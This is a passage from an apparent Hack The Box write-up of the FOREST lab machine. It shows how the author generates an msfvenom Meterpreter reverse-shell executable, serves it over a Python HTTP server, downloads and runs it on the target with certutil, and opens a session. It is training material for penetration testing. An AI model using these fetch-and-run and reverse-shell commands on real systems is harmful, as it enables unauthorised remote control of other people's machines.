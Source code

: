 When I first read the description, I was pretty amazed as I had yet to see any applications of graph theory in cyber security and I did a bit of graph theory in my data structures and algorithms class. To get the PowerShell ingestor ([`SharpHound`](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe)) to run on the system, I first need to upgrade my current `WinRM` shell to a `meterpreter` shell.

First, I generate my reverse shell executable using `msfvenom` and start our reverse shell listener.
{% highlight bash %}
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.XX.XX LPORT=1337 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes

$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.XX.XX
LHOST => 10.10.XX.XX
msf5 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.XX.XX:1337
{% endhighlight %}

And then start a web server using the builtin `SimpleHTTPServer` module in `python`
{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/shell.exe .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

In our previous `WinRM` shell still hopefully connected,
{% highlight raw %}
PS htb\svc-alfresco@FOREST Documents> certutil -f -split -urlcache http://10.10.XX.XX/shell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

PS htb\svc-alfresco@FOREST Documents>./shell.exe
{% endhighlight %}

{% highlight raw %}
[*] Sending stage (179779 bytes) to 10.10.10.161
[*] Meterpreter session 1 opened (10.10.XX.XX:1337 -> 10.10.10.161:50337) at 2019-11-16 11:22:12 -0500

meterpreter >
{% endhighlight %}
